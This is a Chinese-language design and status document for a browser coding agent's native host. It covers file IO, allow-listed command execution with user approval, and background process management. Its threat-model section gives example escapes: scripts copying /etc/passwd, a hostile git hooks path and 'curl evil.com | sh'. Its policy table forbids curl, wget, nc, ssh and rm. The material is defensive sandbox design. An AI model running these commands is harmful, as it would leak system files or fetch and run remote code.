
- **定位**：浏览器内读/写/改/删文件，静态分析，无命令执行
- **对标**：Cursor Composer / Copilot Workspace 编辑模式
- **安全边界**：scope 路径校验（四层防御，见 §8）
- **Agent 自我验证能力**：无（无法跑测试/编译）
- **状态**：🟢 直接实施（见 §9 实施阶段）

### 档位 1.5：透明 exec（当前规划）

- **定位**：在档位一基础上增加受控命令执行（npm test / cargo build / git status 等），让 agent 能自我验证
- **对标**：Cursor Composer 的终端能力 + Claude Code 的命令执行
- **安全模型**：透明 + 审批（不做虚假沙箱承诺）
- **信任链**：用户自己装 native host → 自己授权目录 → 自己批准命令（跟用户开终端一样）
- **状态**：🔵 设计完成，待实施

#### 通信模型决策

| 场景 | 模式 | 理由 |
|---|---|---|
| 文件 IO | `sendNativeMessage`（无状态） | 每次操作独立，天然并发安全 |
| 命令执行 | `connectNative`（长连接） | 流式 stdout + 审批 + 可取消 |

**多对话并行**：每个 `connectNative()` 调用 spawn 独立 Rust 进程，互不干扰。

#### exec 协议（长连接）

```
浏览器                                      Rust host（持续运行）
  │
  ├─► { action: "exec", scope_id, command: ["npm", "test"] }
  │
  │   host 查 execpolicy
  │
  │◄── { type: "decision", decision: "auto" }
  │   或
  │◄── { type: "decision", decision: "prompt" }
  │
  │   （如果是 prompt，浏览器弹审批框，用户点允许）
  │
  ├─► { action: "exec", scope_id, command, _approved: true }
  │
  │   host 执行命令
  │
  │◄── { type: "stdout", data: "Running 10 tests...\n" }
  │◄── { type: "stdout", data: "✓ test 1 passed\n" }
  │◄── { type: "stderr", data: "warning: ...\n" }
  │◄── { type: "exit", code: 0 }
  │
  └─ port disconnect → host 进程退出
```

#### 三层安全

1. **ExecPolicy**（命令白名单）— Rust host 内静态匹配，auto/prompt/forbidden
2. **OS 沙箱**（可选，后续加）— macOS seatbelt / Linux landlock
3. **用户审批** — prompt 决策走 UI 确认

#### 涉及改动

- Rust host：新增长连接事件循环 + exec action + execpolicy 匹配引擎
- 扩展端：background.ts 新增 port 转发 + injected.content.ts 暴露 `nativeHostExec`
- Web 端：新增 exec tool + 审批 UI + terminal 输出渲染

### 档位二：完整沙箱 exec（未来路线，需独立评估）

- **定位**：允许执行预定义的白名单命令（`npm test`、`git status`、`tsc --noEmit` 等），短命令同步返回
- **对标**：增强版的编辑型 Agent，能做有限的自我验证
- **关键约束：必须配套开发沙箱**

#### 为什么应用层路径白名单挡不住？

如果只在 native host 里检查命令参数路径是否在 scope 内，以下场景全部能绕过：

```bash
# 1. 命令内部行为不可控：npm test 跑的是 package.json 里的脚本
$ cd /scope/project && npm test
# package.json 可以被 AI 改成：
#   "test": "node -e \"require('fs').copyFileSync('/etc/passwd','./leak')\""

# 2. 解释器动态加载
$ python -c "import shutil; shutil.copy('/etc/passwd', 'leak')"
$ node -e "require('fs').copyFileSync('/etc/passwd','leak')"

# 3. 间接执行
$ git config core.hooksPath /tmp/evil-hooks
```

**结论：只要允许执行任意解释器/包管理器，应用层沙箱形同虚设。**

#### 可靠沙箱必须依赖 OS 级隔离

| 机制 | 平台 | 隔离强度 | 代价 |
|---|---|---|---|
| Linux namespace + overlayfs + cgroup | Linux | 强（Docker 底层） | 需 root 或 user namespace |
| macOS sandbox-exec / Seatbelt | macOS | 强 | 需要 entitlement；Apple 不推荐第三方用 |
| macOS 轻量虚拟化 (Virtualization.framework) | macOS | 强（Codex 用的） | 需写 VM 配置，启动开销大 |
| Windows AppContainer / WSL | Windows | 中-强 | API 复杂；WSL 是另一层 OS |

#### ⚠️ 反模式警告

> **绝不在当前 native host 架构上直接加 `exec` action。**
>
> 当前架构（1MB Rust 二进制 + NM 管道）是为纯文件 IO 设计的。如果加上 `exec`，会给人"能安全执行命令"的错觉，但实际沙箱是纸糊的——这比完全不支持更危险，因为用户会信任它。
>
> 命令执行能力必须作为**独立的、基于容器化/虚拟化的运行时**来设计。

#### 档位二的技术轮廓（未来独立项目）

如果要走这条路线，native host 会从"文件 IO 通道"变成"沙箱编排器"：

- [ ] 设计沙箱运行时（基于 Docker/Podman 或 OS 原生虚拟化）
- [ ] scope 目录 bind-mount / 只读挂载进沙箱
- [ ] 网络隔离（否则 `curl evil.com | sh` 绕过文件检查）
- [ ] 系统镜像打包（node/npm/python 等运行时需在镜像内）
- [ ] 命令白名单 + 参数审计（纵深防御，不能只靠它）
- [ ] 进程生命周期管理（浏览器关闭后清理沙箱）
- [ ] 流式输出协议（长进程的 stdout/stderr 回传）

这基本上是**重新做一个 Docker Desktop 级别的编排产品**，应作为独立项目立项，不在本 STATUS.md 范围内。

### 档位三：完整 Coding Agent（对标 Codex / Devin）

- **定位**：完整沙箱 + PTY + 长连接 + 任意命令执行 + 文件监听
- **对标**：OpenAI Codex、Devin、Claude Code
- **前提**：档位二的沙箱基础设施已成熟
- **额外需要**：
  - PTY（伪终端）支持，交互式命令体验
  - `connectNative` port 长连接，流式推 stdout
  - 文件 watcher（`fsevents` / `inotify`）
  - 完整 shell 环境（PATH、env、shell rc）

### Roadmap 总结图


### 关键原则

1. **档位之间是架构边界，不是功能开关**。档位一和档位二不是同一个 native host 的两个模式，而是两套不同的运行时。
2. **不要在档位一上"试探性"加 exec**。一旦加了，安全承诺就变了，但防御能力没跟上。
3. **档位二/三需要独立的安全设计文档**，不应混入本文件。

---

## 12. Agent 工具能力对照清单（档位一）

本清单对照档位一（纯文件 IO Agent）下，现有 Agent 工具的支持情况。

> **关键区分**：`git_*` 工具是基于 OPFS 的变更追踪和快照系统实现的"伪 git"，**不调用系统 git 命令**，所以属于文件 IO 范畴。而 `bash` / `run_python` 是浏览器内的虚拟运行时（WASM/Pyodide），与 native host 的磁盘体系是**两套独立体系**，它们能否工作与本方案无关。

### ✅ 完全支持（WorkspaceRuntime 接管后自动可用）

这些工具走 `VfsBackend` → `WorkspaceRuntime`。native host 接管 `WorkspaceRuntime` 的磁盘层后，**自动获得真实磁盘读写能力**，无需改动工具本身代码。

| 工具 | 功能 | 底层链路 |
|---|---|---|
| `read` | 读文件 | `WorkspaceRuntime.readFile` → executor.read |
| `write` / `edit` | 写/编辑文件 | `WorkspaceRuntime.writeFile` → executor.write |
| `delete` | 删文件/目录 | `WorkspaceRuntime.deleteFile` → executor.delete |
| `sync` | 同步到磁盘 | `WorkspaceRuntime.syncToDisk` → executor 落盘 |
| `git_status` | 状态 | SQLite `fs_overlay` 表（OPFS 变更追踪，非系统 git） |
| `git_diff` | 差异 | SQLite `fs_overlay` + `diff` 库 |
| `git_log` | 历史 | SQLite snapshots 表 |
| `git_show` / `git_restore` | 查看/恢复快照 | SQLite snapshots 表 |

### ⚠️ 需适配（工具直接调 `directoryHandle`，需改走 executor）

这些工具绕过 `WorkspaceRuntime`，自己用 `resolveNativeDirectoryHandleForPath` 拿 handle 操作磁盘。改造时**工具代码本身要动**。

| 工具 | 碰磁盘的方式 | 改造点 |
|---|---|---|
| `detect_conflicts` | `detectSyncConflicts(dirHandle)` 比对 OPFS 与磁盘 mtime | 改走 `executor.stat()` 拿磁盘 mtime 进行对比 |
| `create_checkpoint` | `createDraftSnapshot(dirHandle)` 读磁盘做基线快照 | 改走 `executor.read()` 读磁盘文件做基线 |
| `rollback_checkpoint` | `rollbackSnapshot(dirHandle)` 从磁盘恢复文件 | 改走 `executor.read()` 恢复文件内容 |
| `ls` | `getDirectoryHandle().entries()` | 改走 `executor.listDir()` |
| `search` | Search Worker 遍历 handle + ripgrep WASM | Worker 改为从 executor 拉文件列表（复杂度最高） |
| `ocr` | handle 读图片 | 改走 `executor.read()` 读图片字节 |
| `wasm_plugin_*` | `traverseDirectory(handle)` | 改走 executor 遍历 |

> 特别注意：`detect_conflicts` / `create_checkpoint` / `rollback_checkpoint` 这组"变更集工具"虽然是 OPFS 驱动的，但它们的**冲突检测和基线快照能力本质上依赖读取真实磁盘**——这是它们正确工作的前提。

### ❌ 不支持（依赖命令执行/独立运行时）

这些工具要么依赖系统命令执行，要么依赖浏览器内沙箱运行时，与 native host 文件 IO **正交**（它们操作的是 OPFS 映射，不碰真实磁盘）。

| 工具 | 功能 | 原因 |
|---|---|---|
| `bash` | 执行 bash | 浏览器内 `just-bash` WASM 解释器 + OPFS VFS 桥接。能否工作与 native host 无关 |
| `run_python` | 执行 Python | 浏览器内 Pyodide，工作目录映射到 OPFS，同上 |
| WebContainer 系列 | 跑 dev server | `@webcontainer/api` 虚拟机，独立于磁盘 IO |

> 如果你希望 bash/python 操作**真实磁盘文件**，那属于 Roadmap 的档位二/三（命令执行 + OS 级沙箱），档位一不做。

### 🔵 无关（不涉及文件 IO）

| 工具 | 功能 |
|---|---|
| `ask_user_question` | 问用户 |
| `delegate_to` | 委派子任务 |
| `web_search` / `web_fetch` | 网页搜索/抓取 |
| `page_read` / `page_click` / `page_fill` | 浏览器自动化 |
| `db_query` | SQLite 查询 |
| `canvas_*` | 工作流 |
| `switch_mode` | 切换模式 |
| `install_skill` / `read_skill` / `search_skills` | 技能系统 |
| `generate_image` | 生成图片 |

### 结论

档位一 = **完整的文件编辑型 Agent**（对标 Cursor Composer），能读/写/改/删真实磁盘文件 + OPFS 冲突检测 + 快照历史。**不能**执行系统命令——这是 Roadmap 档位二的范畴。

---

## 13. 相关链接

- 第一个 POC patch：`experiment-native-host-e3d2221.patch`（Rust native host 基础）
- PR #6：Node.js bridge daemon（任务委派，共用扩展 ID）
- 扩展 ID：`kdnnhmagmghdhfinoipgbcddnpmffbkp`
- Native host name：`com.creatorweave.nativehost`

---

*最后更新：基于截至当前对话的方案讨论，已包含 Roadmap（档位一/二/三）与工具能力对照清单。勾选 §9 的 checkbox 来追踪进度。*

---

## 14. UI 标记：区分 native-host 与 fsaccess 授权的 root

**背景**：FolderSelector 顶部 chip 原本只显示状态点（绿/琥珀/灰）+ 文件夹名 + 只读锁，没有任何字段记录"这个 root 是哪个后端授权的"。引入 native host 后，两种后端并存会导致测试时无法区分。

**决策**：采用**小图标徽章**方案。

### 实现

- `RootInfo` 新增可选字段 `backend?: DiskBackend`（`'fsaccess' | 'native-host'`），默认 `'fsaccess'`（向后兼容）。
  - 类型定义：`web/src/types/folder-access.ts`
  - `DiskBackend` 同时作为 `DiskRoot.backend` 的类型来源（阶段 1 `executor.ts` 接口落地时复用）。
- `FolderSelector.tsx` 的 `RootChip`：当 `root.backend === 'native-host'` 时，在 chip 上渲染一个 Cable 图标徽章（`lucide-react` 的 `Cable`），背景 `primary/10`、图标 `primary-600`，hover tooltip = `projectRoots.nativeHostBadge`（= "Native Host"）。
- fsaccess 的 root **不加任何标记**，保持现状。
- i18n：`projectRoots.nativeHostBadge` 已加到 en-US / zh-CN / ja-JP / ko-KR 四个 locale。

### 为什么选 Cable 图标

Cable（线缆）直观表达"NM 通道"——浏览器与本地 native host 之间的有线连接。区别于 FS Access 的"纯浏览器内"语义。备选有 Plug、ShieldCheck、ServerCog；Cable 语义最准、体积最小。

### 状态

- [x] `DiskBackend` 类型 + `RootInfo.backend` 字段
- [x] `FolderSelector` chip 徽章渲染逻辑
- [x] i18n 四语言补齐
- [x] **阶段 3**：`NativeHostExecutor` 实现后，在 `folder-access.store.loadRoots` 里把 native-host root 的 `backend` 置为 `'native-host'`（当前默认 `'fsaccess'`，徽章不显示，符合预期）

---

## 15. 后续修复与增强（阶段 3 端到端验证期间）

### CompositeExecutor — 按路由选择（关键修复）

**问题**：原 `resolveDiskExecutor()` 在 `isNativeHostAvailable()` 为 true 时全局返回 `NativeHostExecutor`，导致 agent 自己的 workspace（FS Access root）也被劫持，所有文件操作报 `unknown scope_id`（bootstrap 鸡生蛋问题）。

**修复**：新建 `web/src/opfs/native-disk/executor-composite.ts`，实现 `CompositeExecutor`：
- 按 `rootId` 格式路由：`scope_xxx` → NativeHostExecutor；`projectId:rootName`（compoundKey） → FSAccessExecutor
- `workspace-manager.ts` 的 `resolveDiskExecutor()` 改为返回 `CompositeExecutor`
- Agent 自己的文件操作（compoundKey rootId）走 FSAccess → 不依赖 native host → bootstrap 问题消失

### handle 判断修复

以下位置原先用 `getNativeDirectoryHandle() == null` 判断"是否挂载了本地目录"，对 native-host root（无 handle）会误判：

| 文件 | 改动 |
|---|---|
| `workspace.store.ts` `deriveLiveHasDirectoryHandle` | 加查 `folder-access.store` roots 中 `backend === 'native-host'` |
| `workspace.store.ts` `syncUnsyncedSnapshots` / `syncOpfsOnlyFiles` | guard 从 `!nativeDir` 改为 `!hasAnyNativeDirectoryHandle()` |
| `workspace.store.ts` `checkOpfsOnlyFiles` | `handles.size !== 1` 改为感知 native root |
| `auto-apply-run-changes.ts` | 接口加 `hasAnyNativeDirectoryHandle()`；guard 从 `!nativeDirectory` 改为 `!hasDiskRoot` |
| `syncToDisk` / `detectSyncConflicts` / `syncToNative` / `syncOpfsFilesToNative` | 签名接受 `FileSystemDirectoryHandle \| null` |

### 复杂批量场景适配

| 方法 | 改动 |
|---|---|
| `prepareFiles` | native-host root 走 `diskExec.read`；FS Access root 保留 handle |
| `listOpfsOnlyFiles` | native-host root 用 `diskExec.stat` 检查文件存在性 |
| `syncToNative` | 新增 `syncToNativeDiskRoot` / `syncToNativeDiskRoots` / `copyToNativeDiskRoot` |
| `registerDetectedChanges` | else 分支（无 handle）走 executor stat + read |

### background.ts relay 修复

`native_host_call` handler 原从 `message.payload.action` 读 action，但 content.ts relay 会展开 payload 到 message 顶层。改为从 `message.action` 读，并 strip 内部 relay 字段后转发给 native host。

### ls 工具适配 native-host root

**问题**：`ls` 工具直接依赖 `FileSystemDirectoryHandle.entries()` 遍历目录，native-host root 无 handle → `ls codex-clone` 失败。

**修复**：
- `WorkspaceRuntime` 新增 `listDiskDir()` + `scanDiskTree()` 公共方法（走 `diskExec.listDir`）
- `ls.tool.ts` 在 `directory_not_found` 和 catch fallback 处加 `tryNativeHostDiskScan()`
- 根目录列举从 `getRuntimeHandlesForProject().size > 0` 改为直接查 SQLite `findByProject()`

### 多 root 验证

已验证 `codex-clone`（native-host root）与 `creatorweave`（FS Access root）共存，`ls` / `read` / `write` 跨 root 正常工作。

---

## 16. 档位 1.5 exec — 进行中

### 已完成

- [x] Codex 沙箱架构分析完成（三层：ExecPolicy + OS Sandbox + 审批）
- [x] 通信模型决策：文件 IO 用 `sendNativeMessage`，exec 用 `connectNative` 长连接
- [x] 多对话并行确认：每个 `connectNative()` spawn 独立进程，互不干扰
- [x] `main.rs` 改为双模式：检测 `"stream": true` 进入长连接事件循环
- [x] STATUS.md §11 档位 1.5 设计文档写入

### 已完成

- [x] `execpolicy.rs` — 命令白名单匹配引擎（Rust）✅ 6 个单元测试
- [x] `actions/exec.rs` — exec action（`handle_stream`，流式 stdout/stderr/exit）✅
  - 多线程 stdout/stderr 读取（mpsc channel 复用）
  - 超时杀死子进程（默认 120s）
  - signal 提取（Unix `ExitStatusExt::signal()`）
- [x] `actions/check_policy.rs` — stateless policy 查询 action ✅
- [x] `actions/mod.rs` 注册 `exec` + `execpolicy` + `check_policy` 模块 ✅
- [x] `scope.rs` — `dirs_home()` 改为 `pub`（execpolicy 复用）✅
- [x] `main.rs` 流式事件循环（双模式已有，exec action 已路由）✅
- [x] 扩展端 `background.ts` 新增 `native_host_exec` 流式 port 转发（connectNative）✅
- [x] 扩展端 `background.ts` — `check_policy` 加入 `native_host_call` 白名单 ✅
- [x] 扩展端 `injected.content.ts` 暴露 `nativeHostCheckPolicy` + `nativeHostExec` ✅

### 档位 1.5 exec — 已完成并验证

- [x] Web 端 exec tool（`exec.tool.ts`）✅
- [x] 审批逻辑 ✅ 独立 `exec-auth.store` + `ExecAuthModal` 弹窗（参考 page-write-auth 模式）
- [x] `exec.tool.ts` 注册到 `tool-registry.ts`（条件注册 `registerExecTool()`）✅
- [x] Rust `exec_sync` stateless action ✅
- [x] 端到端验证通过 ✅：auto / prompt / forbidden 三种路径全部验证
- [x] ExecAuthModal 国际化 ✅（en-US / zh-CN / ja-JP / ko-KR）
- [x] ExecPolicy 可视化管理界面 ✅（设置面板新增「执行策略」tab）
- [x] Rust `get_execpolicy` / `set_execpolicy` action ✅
- [x] terminal 输出渲染组件（`ExecRenderer.tsx`：命令、cwd、stdout/stderr、退出码、signal、超时、截断与复制）✅

> **架构变更**：原设计用 streaming（`connectNative` 长连接），实测 streaming relay 不稳定。
> 最终改为 **stateless `exec_sync`**（`sendNativeMessage`），与文件 IO 走同一通道。
> 审批用独立 `ExecAuthModal`（参考 page-write-auth），不经过 LLM。
> ExecPolicy 管理界面在设置面板的「执行策略」tab，通过 `get/set_execpolicy` action 同步到本地 `~/.creatorweave/execpolicy.json`。

### exec 协议（长连接）

见 §11 档位 1.5 的协议图。核心：
1. 第一条消息 → host 查 execpolicy → 返回 decision
2. prompt → 浏览器弹审批 → 用户允许
3. 第二条消息（`_approved: true`）→ host 执行 → 流式推 stdout/stderr → exit
4. port disconnect → host 退出

### execpolicy.json 默认规则

文件位置：`~/.creatorweave/execpolicy.json`（首次访问时自动创建）

匹配优先级：**forbidden > auto > prompt > default**。如果一个命令同时匹配 auto 和 forbidden 规则，forbidden 胜出。

参数匹配是 **前缀匹配**：规则 `{ command: "git", args: ["status"] }` 匹配 `git status` 也匹配 `git status --short`。

| decision | 命令 | 说明 |
|---|---|---|
| auto | ls, cat, echo, pwd, which, head, tail, wc, grep, find, rg, sed, awk, sort, uniq, diff, tree, file, stat, du, env, date, uname, whoami | 只读工具 |
| auto | git status/diff/log/branch/show/stash list/remote -v/rev-parse | git 只读子命令 |
| auto | npm test/run, npx tsc --noEmit/vitest/eslint, pnpm test/run/lint/typecheck, yarn test, cargo build/test/check/clippy/fmt --check/metadata, python -m pytest/mypy, pytest, mypy, ruff, go test/build/vet, make | 构建/测试/lint |
| auto | node/npm/pnpm/python/rustc --version | 版本查询 |
| forbidden | rm, rmdir, sudo, chmod, chown, curl, wget, nc, ssh, scp, dd, mkfs, shutdown, reboot, kill, killall, launchctl, defaults, crontab | 危险命令 |
| forbidden | git reset --hard, git push --force/-f, git clean -fd/-f | 危险 git 子命令 |
| prompt (default) | 其他所有命令 | 默认需用户审批 |

### 已实现的 exec 协议（stateless exec_sync + ExecAuthModal）

审批采用 **独立模态弹窗**（`ExecAuthModal`，参考 page-write-auth 模式），不经过 LLM：

```
exec.tool.ts                             扩展 background                  Rust host
  │
  │  1. check_policy（stateless）
  ├─► nativeHostCall({action:'check_policy', command})
  │                          ──────────►  sendNativeMessage ──────►  check_policy action
  │◄── { decision: "auto" }  ◄──────────  ◄────────────────────  ◄──  execpolicy::check()
  │
  │  2a. decision == "auto"      → 直接执行
  │  2b. decision == "prompt"    → useExecAuthStore.request() → 弹出 ExecAuthModal
  │                                  用户点 Allow/Deny（不经过 LLM）
  │  2c. decision == "forbidden" → 直接报错，不执行
  │
  │  3. exec_sync（stateless，与文件 IO 同通道）
  ├─► nativeHostCall({action:'exec_sync', scope_id, command, timeout})
  │                          ──────────►  sendNativeMessage ──────►  exec_sync action
  │                                                                        │
  │                                                                        ▼ exec_sync::handle()
  │                                                                          execpolicy::check()（再次验证）
  │                                                                          spawn + wait + collect output
  │◄── { ok:true, stdout, stderr, exit_code }  ◄────────────  ◄──  JSON response
  ▼
```

**关键设计点：**
- 审批弹窗用独立 store（`exec-auth.store`），与 `ask_user_question` 的 `pending-question.store` 分离
- 授权信息**完全不经过大模型**，LLM 无法绕过
- `exec_sync.rs` 内部再次校验 execpolicy，forbidden 命令永远拒绝
- ExecAuthModal 底部有引导文字，指向设置面板的「执行策略」tab
- 原有 streaming 代码（`exec.rs` + background `native_host_exec` handler）保留，待 streaming relay 问题解决后可切回

### Rust exec 实现细节

**`exec_sync.rs`**（实际使用）：stateless 单次调用，spawn 子进程 → `try_wait` 轮询 + 50ms sleep → 收集 stdout/stderr → 返回 JSON。输出截断到 800KB 以适应 NM 1MB 限制。

**`exec.rs`**（保留未用）：streaming 版本，`execute_and_stream()` 使用三线程模型：
1. **主线程** — spawn 子进程，轮询 mpsc channel（100ms 超时），转发事件到 NM stdout，检查超时/退出
2. **stdout 线程** — `BufReader::lines()` 逐行读取 stdout，发送到 channel
3. **stderr 线程** — 同上，复用同一个 channel（`OutputLine::Stdout` / `Stderr` 区分）

超时处理：主线程比较 `Instant::now() > deadline`，超时则 `child.kill()` + `child.wait()`，发 `{ type:"exit", timeout:true }` 事件。
信号提取（Unix only）：`std::os::unix::process::ExitStatusExt::signal()` 获取终止信号编号。

### ExecPolicy 管理界面

设置面板新增「执行策略」tab（`ExecPolicyPanel.tsx`）：
- 通过 `get_execpolicy` / `set_execpolicy` action 读写 `~/.creatorweave/execpolicy.json`
- 规则按 forbidden / auto / prompt 三组展示
- 支持搜索、新增规则、修改决策、删除规则、调整默认策略
- 改完点保存同步到本地文件
- 审批弹窗（`ExecAuthModal`）底部有引导文字指向设置面板

---

## 17. 后台进程管理（dev server 等长驻进程）— 设计

### 17.0 问题定义

`exec_sync` 的模型是「等待退出 → 收集输出 → 返回」，超时还会 kill。而 dev server
（vite / next dev / npm run dev）是**不退出**的长驻进程：需要挂在后台持续运行，
工具调用却必须及时返回。直接用 `exec_sync` 跑 dev server 是反模式。

### 17.1 核心决策：Detached Process + 磁盘状态（不引入长连接）

沿用无状态 NM 架构（每次 `sendNativeMessage` 都是新 host 进程），
把「**业务进程生命周期**」与「**host 进程生命周期**」解耦：

| 决策 | 方案 | 理由 |
|---|---|---|
| 进程保活 | detached spawn（`setsid` + 独立进程组），host 退出后子进程继续运行 | 与无状态架构完全兼容；浏览器关了 dev server 也活着（对 dev server 是 feature） |
| 状态存储 | `~/.creatorweave/processes.json`（id/pid/pgid/command/scope_id/name/started_at/log_path/status） | 每次 NM 消息都是新 host 进程，状态必须落盘（同 scopes.json 模式） |
| 日志捕获 | spawn 时把 stdout/stderr 重定向到 `~/.creatorweave/logs/{id}.log` | `exec_logs` = 读文件 + offset 分页，复用 `read_file_at` 分块协议，零新机制 |
| 停止进程 | `kill(-pgid, SIGTERM)` 杀整组 | npm 会派生子进程，只杀主 PID 会留孤儿 |
| 就绪探测 | `exec_status` 内置 localhost 端口 connect 探测；或 web 侧直接 fetch | agent 需要知道端口就绪后才能继续验证 |
| 并发写 registry | lock 文件 + O_EXCL 重试 | 并行 tool call 时两个 host 进程 read-modify-write 会互相覆盖 |
| 审批 | `exec_start` **一律 prompt**（不看 execpolicy） | 长驻进程风险高一档：会话结束后仍在跑、占端口、持续执行 AI 改过的代码 |
| 数量上限 | 最多 10 个并发托管进程 | 防泄漏 |

### 17.2 协议（5 个 stateless action）

```text
exec_start  { scope_id, command[], name?, cwd?, env? }
            → { ok, process_id, log_path }          （立即返回，不等待）
exec_logs   { process_id | name, offset?, tail? }
            → { ok, data, bytes_read, offset, eof } （同 read_file_at 分块）
exec_status { process_id | name, probe_port? }
            → { ok, state: running|exited|stopped, exit_code?, port_ready? }
exec_stop   { process_id | name, force? }
            → { ok, signaled }
exec_list   { scope_id? }
            → { ok, processes: [...] }             （新会话可发现遗留进程）
```

启动时写 registry 行 + 日志文件；停止/退出后标记 state（记录保留，便于审计）。

> **调用方约定**：`exec_status` / `exec_logs` 是给**程序**（web executor / UI 面板）
> 用的底层原语，**不是给大模型轮询用的**。就绪等待发生在 web 工具 executor
> 内部（见 §17.3），LLM 永远不进入「循环查状态」的调用模式。

### 17.3 Agent 工具面（扩展现有 `exec`，不加新工具）

**大模型只发一次调用**，就绪等待在工具 executor 内部完成：

```jsonc
// 启动后台进程（一次调用 = start + 内部等待就绪 + 返回完整状态）
{ "command": ["pnpm","dev"], "root": "<root>", "background": true,
  "name": "web", "port": 5173, "ready_timeout": 60000 }
→ { process_id, state: "ready", url: "http://localhost:5173", log_tail: "..." }
// 或超时/退出 → { state: "timeout"|"exited", exit_code?, log_tail }（模型据此诊断）

// 按需一次性读取（改完代码后看 HMR 日志，非轮询）
{ "process": "web", "action": "logs", "tail": 50 }

// 停止
{ "process": "web", "action": "stop" }
```

**executor 内部就绪判定**（不发起新的工具调用）：
1. `exec_start` 拿 process_id
2. 每 500ms 探活：connect `localhost:<port>`（端口由 `port` 参数或从日志正则
   `localhost:(\d+)` 抓取）；同时查 `exec_status`，进程若已 exited 立即失败返回
3. 就绪 → 返回 `{ state: ready, url, log_tail }`；超过 `ready_timeout` →
   返回 `{ state: timeout, log_tail }`；两种情况都是**单次工具结果**

Agent 工作流：`exec(background)` 一次调用拿到 ready + URL → 浏览器直接开
`http://localhost:<port>` 验证 → 改代码 → 需要时一次 `logs` 看热更新报错 →
完事 `stop`。浏览器本来就能访问 localhost，无需端口转发。

UI「运行中进程」面板由前端自行定时轮询 `exec_list`（与 LLM 无关）。

### 17.4 实施清单

- [x] Rust `src/process_registry.rs` — processes.json 读写 + lock + 上限 ✅（4 个单元测试，HOME 互斥串行化）
- [x] Rust `actions/exec_start.rs` — detached spawn（process_group(0)）+ 日志重定向 + registry 写入 ✅
- [x] Rust `actions/exec_logs.rs` — offset 分页读日志（tail 模式 + base64 分块）✅
- [x] Rust `actions/exec_status.rs` — kill(0) 探活 + 可选端口探测 ✅
- [x] Rust `actions/exec_stop.rs` — kill(-pgid, SIGTERM→SIGKILL 升级) + registry 更新 ✅
- [x] Rust `actions/exec_list.rs` — 列举（含遗留进程发现）✅
- [x] `actions/mod.rs` 注册 5 个 action ✅；`cargo build` + `cargo test` 24/24 通过 ✅
- [ ] 扩展端 `background.ts` action 白名单加 5 个 action
- [ ] Web `exec.tool.ts`：`background` / `name` / `process` / `action` / `port` / `ready_timeout` 参数；`background` 路径 = executor 内部轮询探活至就绪/超时后一次性返回；`exec_start` 一律 prompt 审批
- [ ] Web `ExecRenderer.tsx`：后台进程卡片（name/command/status/日志尾部/停止按钮）
- [ ] UI：设置面板「运行中进程」管理（复用 ExecPolicyPanel 位置）
- [ ] 端到端验证：vite dev server 启动 → 端口就绪 → 热更新日志 → 停止

### 17.5 风险与边界

- **孤儿进程**：浏览器崩溃后 registry 留脏记录 → `exec_list` 可发现 + UI 手动清理；可加过期提醒
- **记录/日志清理**：`reap_dead()` 内置 prune ✅ — 已结束记录保留 7 天（`RETENTION_SECS`），总量上限 50 条（`MAX_FINISHED_RECORDS`，最旧先淘汰），淘汰时同步删除日志文件；每次 exec_status/exec_list（含 UI 轮询）顺带触发，运行中进程不受影响
- **Windows**：`CREATE_NEW_PROCESS_GROUP` + `taskkill /T`，放后续版本
- **日志膨胀**：日志文件不设上限（dev server 日志量可控）；`exec_logs` 只按需分页读；已结束进程日志随 prune 清理
- **进程数上限**：超过 10 个拒绝启动，错误信息里列出当前进程

### 17.6 工具拆分：exec 专注执行，processes 负责进程管理（2026-08-14）

**问题**：后台进程管理动作（list/logs/status/stop）最初作为 exec 的 `action`/`process` 参数实现。实践发现两个缺陷：① 模型难以可靠地发现并正确使用这种「同一工具内换参数即换语义」的模式；② schema 需要 command 非必填，与主用途冲突。

**拆分**：新建独立 `processes` 工具（`web/src/agent/tools/processes.tool.ts`）：

- `processes()` 无参调用 = 列出全部后台进程（含遗留发现），返回 running 数组 + 计数，天然规避 schema 问题
- `processes({ action: "logs" | "status" | "stop", process: "<name>" })` 管理动作
- 与 exec 同生命周期注册/注销（registerExecTool 同时注册两者）

exec 相应瘦身：删掉 `action` / `process` / `tail` 参数与 handleBackgroundAction，只保留执行 + `background: true` 启动；描述/hint 全部改指 processes 工具。

---

## 18. exec 前自动 flush（pending → 磁盘）

### 18.0 问题定义

Agent 的主循环是「改代码 → exec 验证」。但 write/edit 的变更先落在 OPFS
pending 层，只有 agent loop 结束或用户批准后才落盘。于是 exec（cargo test /
tsc 等）读到的是**旧代码**——且是静默的，agent 对「磁盘是否已包含我的改动」
零感知。实测中连续出现「edit → cargo build → 编译旧版本 → 浪费多轮」。

### 18.1 决策：exec 前自动 flush，不再提供手动 sync 工具

**一行语义：exec 看到的磁盘 = agent 当前的工作区。**

曾考虑过三个方案：

| 方案 | 结论 | 理由 |
|---|---|---|
| A. 手动 `sync_to_disk` 工具 | ❌ 否决 | LLM 会忘调用；失败模式是静默陈旧构建，比报错更危险 |
| B. exec 前自动 flush | ✅ 采纳 | 与 Cursor/Codex「直接写盘」语义对齐；模型无感知、无额外工具面 |
| C. 自动 flush + 可关闭降级 hint | ❌ 否决 | 降级模式制造两种不一致语义，徒增状态 |

### 18.2 行为规范

在 `exec.tool.ts` 的 executor 中，顺序为：

```text
1. resolve scope/root
2. check_policy（forbidden → 拒绝；此时不碰磁盘）
3. flush pending：调 WorkspaceRuntime.syncToDisk(onlyPaths = 该 root 的 pending 路径)
   - 无 pending → 跳过，零开销
   - 有 pending → 写盘后继续；结果附 auto_synced: [...]
   - 冲突（磁盘 mtime 比 baseline 新）→ 拒绝执行，返回冲突列表
   - flush 写盘错误 → 拒绝执行，返回错误
4. exec_sync（或 §17 的 exec_start）
```

统一规则（无例外分支）：

- 只 flush exec 目标 root（其他 root 的 pending 不动，仍走正常审批流）
- 只读命令（ls / git status）同样 flush —— 语义一致性优先，避免双规则
- check_policy 在 flush 之前（不允许的命令不产生任何磁盘副作用）
- 审批（prompt 决策）在 flush 之后、执行之前：用户拒绝时不浪费落盘？
  → 实施时按「审批 → flush → 执行」排，避免为被拒绝的命令写盘

### 18.3 实施清单

- [x] `exec.tool.ts`：在审批通过后、`exec_sync` 前插入 flushPendingForRoot ✅（typecheck 通过；实机已验证 auto_synced 生效）
- [x] flush 复用 `WorkspaceRuntime.syncToDisk(directoryHandle?, onlyPaths)` 现有链路（含冲突检测）✅
- [x] 结果 envelope 增加 `auto_synced: string[]` ✅
- [x] 冲突时返回 `sync_conflict` 错误码 + 冲突文件列表 ✅
- [ ] §17 `exec_start`（后台进程）同样走此 flush 逻辑（待 §17 Web 侧实施时一并加）
- [x] 工具描述更新：exec 前会自动同步该 root 的 pending 变更 ✅
